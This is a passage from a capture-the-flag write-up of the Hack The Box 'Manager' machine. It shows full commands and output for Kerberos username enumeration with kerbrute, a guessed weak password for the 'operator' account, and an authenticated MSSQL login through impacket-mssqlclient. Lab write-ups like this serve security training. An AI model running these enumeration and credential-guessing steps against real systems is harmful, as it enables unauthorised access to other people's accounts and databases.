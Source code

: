 <br>

### Foothold

added domain to *manager.htb* to */etc/hosts*

{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ echo "10.129.46.174 manager.htb" | sudo tee -a /etc/hosts
10.129.46.174 manager.htb
{% endvimhl %}

<br>
Looking for a way to enumerate ldap usernames I found kerbrute

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/kerbrute/dist]
└─$ ./kerbrute_linux_amd64 userenum --dc 10.129.46.174 -d manager.htb /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt 
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
Version: dev (9cfb81e) - 10/23/23 - Ronnie Flathers @ropnop
2023/10/23 17:17:17 >  Using KDC(s):
2023/10/23 17:17:17 >   10.129.52.194:88
2023/10/23 17:17:34 >  [+] VALID USERNAME:       ryan@manager.htb
2023/10/23 17:18:01 >  [+] VALID USERNAME:       guest@manager.htb
2023/10/23 17:18:19 >  [+] VALID USERNAME:       cheng@manager.htb
2023/10/23 17:18:28 >  [+] VALID USERNAME:       raven@manager.htb
2023/10/23 17:19:49 >  [+] VALID USERNAME:       administrator@manager.htb
2023/10/23 17:22:30 >  [+] VALID USERNAME:       Ryan@manager.htb
2023/10/23 17:22:57 >  [+] VALID USERNAME:       Raven@manager.htb
2023/10/23 17:24:22 >  [+] VALID USERNAME:       operator@manager.htb
2023/10/23 17:35:46 >  [+] VALID USERNAME:       Guest@manager.htb
2023/10/23 17:35:48 >  [+] VALID USERNAME:       Administrator@manager.htb
2023/10/23 17:44:27 >  [+] VALID USERNAME:       Cheng@manager.htb
2023/10/23 17:45:30 >  [!] prober@manager.htb - failed to communicate with KDC. Attempts made with UDP (error sending to a KDC: error sneding to 10.129.52.194:88: sending over UDP failed to 10.129.52.194:88: read udp 10.10.14.62:48205->10.129.52.194:88: i/o timeout) and then TCP (error in getting a TCP connection to any of the KDCs)
{% endvimhl %}

<br>
By guessing passwords I found that operator's user password is operator and used impacket-mssqlclient tool to connect to mssql server

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager] 
└─$ impacket-mssqlclient -p 1433 -windows-auth -dc-ip manager.htb "manager.htb/operator:operator"@manager.htb
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
{% endvimhl %}
